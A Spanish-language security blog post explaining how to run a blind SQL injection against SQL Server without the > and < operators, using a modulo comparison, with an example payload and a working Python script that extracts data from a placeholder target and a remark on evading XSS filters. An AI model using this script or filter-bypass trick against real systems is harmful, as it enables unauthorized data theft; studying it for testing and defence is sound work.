 ```yaml
---
layout: post
title: "Blind SQLi Trick"
author: "RoP Team"
description: "¿Cómo explotar un Blind SQLi sin los operadores de mayor o menor?"
keywords: "sqli, web, trick"
date: 2020-10-30 00:00:00 -0500
categories: web
lang: es
lang-ref: blind-sqli-trick
---
```


¿Se puede escribir más sobre SQL Injection? No hace mucho tuve que explotar un SQLi donde el parámetro vulnerable se usaba también para crear un archivo como parte del nombre. Puesto que el servidor era Windows, incluir los caracteres `>` y `<` en la inyección provocaba un error que impedía la explotación. Sepa que estos caracteres ([y otros](https://stackoverflow.com/questions/1976007/what-characters-are-forbidden-in-windows-and-linux-directory-names)) no se permiten para nombrar archivos. Dicho sea de paso, se trataba de un Blind SQLi donde el uso de los mencionados operadores de comparación es necesario para implementar el algoritmo de búsqueda binaria ¿O quizá no?

<!--more-->

### Búsqueda binaria

La búsqueda binaria consiste en *acorralar* un valor desconocido dentro de un intervalo e ir reduciendo el intervalo progresivamente hasta deducir dicho valor. Para reducir el intervalo se pregunta si el valor desconocido es menor o mayor que la mitad del intervalo y, según la respuesta obtenida, se toma la mitad inferior o superior (respectivamente) para la siguiente iteración.

Así pues, en un Blind SQLi, usamos este algoritmo para preguntar si el valor numérico de la primera letra de la clave del administrador (`X`) es mayor o menor que un `M`, siendo `M` la mitad de un intervalo conocido por nosotros (por ejemplo, el código ASCII). En no más de 8 iteraciones hallaremos `X` y continuaremos con la segunda letra.

```sql
' AND X > M -- 
```

### Búsqueda binaria sin `>` o `<`

La pregunta es ¿Cómo compararar dos valores sin los operadores de comparación? Luego de un rato pensandolo se me ocurrió utilizar el operador módulo. Recuerde que el módulo es el residuo de una división entera. Así que se cumplirá:

$$ X > M  \rightarrow  (M\ mod\ X) = M$$

La inyección equivalente sería:

```sql
' AND (M%X)=M -- 
```

Todos los caracteres involucrados son perfectamente válidos para nombrar archivos.

### Implementación

El siguiente es un sencillo script en python que implementa este tipo de inyección. Olvidé mencionarlo antes: la base de datos era SQL Server.

```python
from urllib.parse import quote_plus
import requests


def inject(payload):
    url = 'https://vulnerable.com/?sqli={}'
    resp = requests.get(url.format(quote_plus(payload)))
    return 'STRING IF TRUE' in resp.text


def binary_search(expression, lmin=0, lmax=255):
    if lmin == lmax:
        return lmin
    value = (lmin + lmax) // 2
    #  expression > value
    payload = "' AND ({value}%{expression})={value} -- ".format(expression=expression, value=value)
    if inject(payload):
        if lmax - lmin == 1:
            return lmax
        return binary_search(expression, value + 1, lmax)
    else:
        if lmax - lmin == 1:
            return lmin
        return binary_search(expression, lmin, value)


def extract_string(expression, lmin=0, lmax=100):
    payload = "(length({expression}))".format(expression=expression)
    slen = binary_search(expression=payload, lmin=lmin, lmax=lmax)

    payload = "UNICODE(SUBSTRING(({expression}),{index},1))"
    return ''.join([
        chr(binary_search(payload.format(expression=expression, index=i)))
        for i in range(1, slen + 1)
    ])


print(extract_string('db_name()'))
```

### Conclusiones

- Sí es posible implementar la búsqueda binaria sin los operadores de comparación. Esto nos ahorra mucho tiempo puesto que la alternativa hubiera sido usar una búsqueda secuencial.
- Este mismo truco se puede utilizar también para burlar algunos filtros que detecten los caracteres `>` y `<` como XSS.
- Las herramientas como SQLMap son útiles pero siempre van a tener limitaciones. Es necesario conocer las técnicas de explotación y los algoritmos involucrados.
- ~~La recursividad solo sirve para escribir menos líneas de código~~

¡Hasta pronto!

> Escrito por **RoP Team**